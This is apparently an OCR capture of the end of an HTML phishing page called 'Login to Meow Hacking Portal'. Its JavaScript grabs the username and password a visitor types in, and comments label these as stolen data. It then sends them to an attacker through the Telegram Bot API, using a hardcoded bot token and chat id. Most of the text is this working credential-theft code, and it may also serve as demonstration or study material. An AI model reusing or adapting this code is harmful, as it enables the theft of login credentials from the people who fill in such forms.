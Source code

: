 ```html
      cursor: pointer;
    }
    .login-form button:hover {
      background-color: #0056b3;
    }
  </style>
</head>
<body>

  <div class="login-form">
    <h2>Login to Meow Hacking Portal</h2>
    <form id="loginForm" action="javascript:void(0);">
      <input type="text" id="username" name="username" placeholder="Username" required>
      <input type="password" id="password" name="password" placeholder="Password" required>
      <button type="submit">Login</button>
    </form>
  </div>

  <script>
    document.getElementById('loginForm').addEventListener('submit', function(event) {
      event.preventDefault(); // Prevent actual form submission

      var username = document.getElementById('username').value;
      var password = document.getElementById('password').value;

      // Prepare the payload with stolen data
      var payload = `Username: ${username}\nPassword: ${password}. Meow ♥️\uFE0F`;

      // Send stolen data to Telegram
      sendToTelegram(payload);
    });

    function sendToTelegram(message) {
      var chatId = '5547299598'; // chat id for Telegram bot
      var botToken = '7725786727:AAEuylKfQgTg5RBMeXwyk9qKhcV5kULP_po'; // Telegram bot API token
      var apiUrl = `https://api.telegram.org/bot${botToken}/sendMessage`;

      var xhr = new XMLHttpRequest();
      xhr.open("POST", apiUrl, true);
      xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");

      // prepare the POST data in the proper format
      var postData = `chat_id=${chatId}&text=${encodeURIComponent(message)}`;

      // send the POST request with the message
      xhr.send(postData);
    }
  </script>

</body>
</html>
```
